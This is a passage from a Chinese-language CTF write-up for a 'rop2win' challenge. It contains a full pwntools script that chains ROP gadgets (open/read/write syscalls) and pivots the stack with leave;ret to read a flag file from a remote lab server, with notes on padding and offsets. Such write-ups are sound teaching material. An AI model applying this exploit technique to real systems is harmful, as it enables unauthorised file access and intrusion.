 ```python
pop_rdx_rbx_ret, 0x30, 0,
pop_rax_ret, 1,
syscall_ret,
```
最後的解題腳本
```python
# rop2win/solve.py
from pwn import *

context.arch = 'amd64'
r = remote('edu-ctf.zoolab.org', 10005)

ROP_addr = 0x4e3360
fn_addr = 0x4e3340

# ROPgadget --binary ./chal > out
pop_rdi_ret = 0x4038b3 # cat ./out | grep "pop rdi ; ret"
pop_rsi_ret = 0x402428 # cat ./out | grep "pop rsi ; ret"
# pop_rdx_ret: cat ./out | grep "pop rdx ; ret"
pop_rdx_rbx_ret = 0x493a2b # cat ./out | grep "pop rax ; pop rdx ; pop rbx ; ret"
pop_rax_ret = 0x45db87 # cat ./out | grep "pop rax ; ret"
leave_ret = 0x40190c # cat ./out | grep "leave ; ret"
syscall_ret = 0x4284b6 # cat ./out | grep "syscall ; ret"

ROP = flat(
    # open(fn, 0)
    pop_rdi_ret, fn_addr,
    pop_rsi_ret, 0,
    pop_rax_ret, 2,
    syscall_ret,
    # read(3, fn, 0x30)
    pop_rdi_ret, 3,
    pop_rsi_ret, fn_addr,
    pop_rdx_rbx_ret, 0x30, 0,
    pop_rax_ret, 0,
    syscall_ret,
    # write(1, fn, 0x30)
    pop_rdi_ret, 1,
    pop_rsi_ret, fn_addr,
    pop_rdx_rbx_ret, 0x30, 0,
    pop_rax_ret, 1,
    syscall_ret,
)
r.sendafter(b'Give me filename: ', b'/home/chal/flag\x00')
r.sendafter(b'Give me ROP: ', b'A'*0x8 + ROP)
r.sendafter(b'Give me overflow: ', b'A'*0x20 + p64(ROP_addr) + p64(leave_ret))
r.interactive()
```
不過這邊要注意的是，flag 檔案路徑並不是原本的 '/home/rop2win/flag'\
從 docker-compose.yml 檔案裡可以看到 share 資料夾的真實路徑是 /home/chal
![](assets/2-8.png)
而 local 的 flag 檔案是被放在 share 資料夾裡，因此正確的 flag 檔案路徑為 '/home/chal/flag'\
Give me ROP 這邊，因為 ROP 前面有 8 bytes 的東西，所以要隨便塞 8 bytes\
最後 Give me overflow 這裡，在放 ROP_addr 和 leave_ret 之前\
用 gdb 可看出 overflow 的大小是 0x10\
因此 ROP_addr 和 leave_ret 前面還要放 0x10 + 0x10 = 0x20 bytes
